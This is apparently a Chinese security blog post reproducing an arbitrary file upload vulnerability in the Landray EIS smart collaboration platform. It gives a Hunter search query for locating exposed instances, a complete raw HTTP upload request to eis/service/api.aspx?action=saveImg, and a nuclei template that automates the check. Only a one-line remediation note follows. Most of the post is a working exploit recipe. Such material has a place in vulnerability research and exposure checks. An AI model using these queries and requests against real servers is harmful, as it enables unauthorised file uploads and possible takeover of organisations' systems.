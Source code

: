 # 原创
：  【漏洞复现】蓝凌EIS智慧协同平台任意文件上传

# 【漏洞复现】蓝凌EIS智慧协同平台任意文件上传

**目录**

[蓝凌智慧协同平台介绍](#%E8%93%9D%E5%87%8C%E6%99%BA%E6%85%A7%E5%8D%8F%E5%90%8C%E5%B9%B3%E5%8F%B0%E4%BB%8B%E7%BB%8D)

[漏洞搜索](#%E6%BC%8F%E6%B4%9E%E6%90%9C%E7%B4%A2)

[漏洞点](#%E6%BC%8F%E6%B4%9E%E7%82%B9)

[漏洞复现](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)

[nuclei poc](#nuclei%20poc)

[验证](#%E9%AA%8C%E8%AF%81)

[漏洞修复](#%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)

---


### 蓝凌智慧协同平台介绍

蓝凌智慧协同平台是个自动化办公OA，具有多端同步、无缝协作,提供移动端（蓝凌KK、阿里钉钉、微信企业号）、桌面端、网页端多端应用 统一入口、跨屏操作、信息同步知识云服务集成、学习与创新应用、企业2.0应用、跨系统整合等优点，并且在诸多公司也采用该平台。

### 漏洞搜索

web.title=”智慧协同平台”或者web.similar_icon==”14311050366792584935”（后面这个需要开会员）

### 漏洞点

在根目录下的eis/service/api.aspx文件中

### 漏洞复现

1.hunter搜索web.title=”智慧协同平台”，看到下述icon即为蓝凌智慧协同平台。

2.构造数据包。

```

POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 185
Origin: xxxxxxxx
Connection: close
Cookie: ASP.NET_SessionId=dthhzbzqgnlhck454ctpxa55; Lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdgaqmqu

------WebKitFormBoundaryxdgaqmqu
Content-Disposition: form-data; name="file"filename="aaaaaaa.txt"
Content-Type: text/html

afhsahgsdaihguisabghs
------WebKitFormBoundaryxdgaqmqu--
```

3.将构造好的包发送，可以从响应包中获得文件上传地址。<br/>  

<br/> 4.访问该地址，可以看到上传的内容。

### nuclei poc

```
id: lanling-upload

info:
name: lanling-upload
author: xxxx
severity: info
description: description
reference:
- https://
tags: tags

requests:
- raw:
- |-
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Lang=zh-cn; ASP.NET_SessionId=qaygc4nrdrf1flm3vzor04zz
Content-Length: 185
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdgaqmqu

------WebKitFormBoundaryxdgaqmqu
Content-Disposition: form-data; name="file"filename="aaaaaaa.txt"
Content-Type: text/html

afhsahgsdaihguisabghs
------WebKitFormBoundaryxdgaqmqu--

matchers-condition: and
matchers:
- type: word
part: body
words:
- txt
- type: status
status:
- 200
```

### 验证

### 漏洞修复

对用户上传的文件进行过滤，包括后缀和文件内容
